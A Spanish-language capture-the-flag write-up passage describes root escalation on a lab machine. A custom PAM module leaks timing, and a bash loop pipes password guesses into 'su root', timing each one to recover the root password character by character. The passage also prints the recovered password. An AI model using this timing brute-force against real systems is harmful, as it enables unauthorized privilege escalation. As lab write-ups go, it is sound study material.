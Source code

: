 Hemos encontrado una funcion extrana, que buscaremos la ruta absoluta desde raiz con:

```s
find \-name mypam.so 2>/dev/null
```

El archivo se encuentra en ./usr/lib/x86_64-linux-gnu/security/mypam.so y es un binario compilado de 64 bits para Linux. Que al parecer su funcion es comparar la contrasena que se ingresa, con la del usuario del sistema. Esta es una via potencial para encontrar la contrasena y haremos con python una lista de caracteres para ir iterando las posibles contrasenas.

```python
python3 -c 'import string; print("\n".join(string.ascii_uppercase + string.ascii_lowercase + string.digits + string.punctuation))' > characters.
```

Ahora con bash:

```bash
#!/bin/bash

TIMEFORMAT=%E

password="Ti"

for character in $(cat characters); do
                echo -n "$password$character: "
                time printf "%-10s" $password$character | su root 2>/dev/null
done
```

![First character found](/assets/images/Toby/first_character.png)

La contrasena encontrada fue TihPAQ4pse, asi que ahora hemos ganado acceso.

![Root owned](/assets/images/Toby/root_owned.png)
